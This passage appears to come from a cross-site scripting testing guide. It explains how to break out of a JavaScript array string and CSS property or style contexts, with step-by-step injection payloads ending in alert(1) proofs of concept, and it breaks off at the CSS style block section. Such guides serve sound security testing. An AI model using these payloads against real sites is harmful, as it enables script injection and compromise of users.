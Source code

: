 ### JSON Array Elements
**Context Pattern:**
```html
<script>
var arr = ["item1", "USER_INPUT", "item3"];
</script>
```

**Structural Requirements:**
- **Escape:** `"` (close string element)
- **Structure:** `]` (close array)
- **Payload:** `;` + JavaScript
- **Cleanup:** `;//` (comment)

**Progressive Testing:**
```
Step 1: test
Step 2: "
Step 3: "]
Step 4: "];
Step 5: "];alert(1)
Step 6: "];alert(1);//
```

## CSS Contexts

### CSS Property Values
**Context Pattern:**
```html
<div style="color: USER_INPUT">
```

**Structural Requirements:**
- **Escape:** Not always needed
- **Structure:** `;` (end property)
- **Payload:** New CSS property or CSS function
- **Cleanup:** `;` (end your property)

**Progressive Testing:**
```
Step 1: red
Step 2: red;
Step 3: red;background:
Step 4: red;background:url(javascript:alert(1))
Step 5: red;background:url(javascript:alert(1));
```

### CSS Style Blocks
**Context Pattern:**
```html
<style>
.class { color: USER_INPUT; }
</style>
```
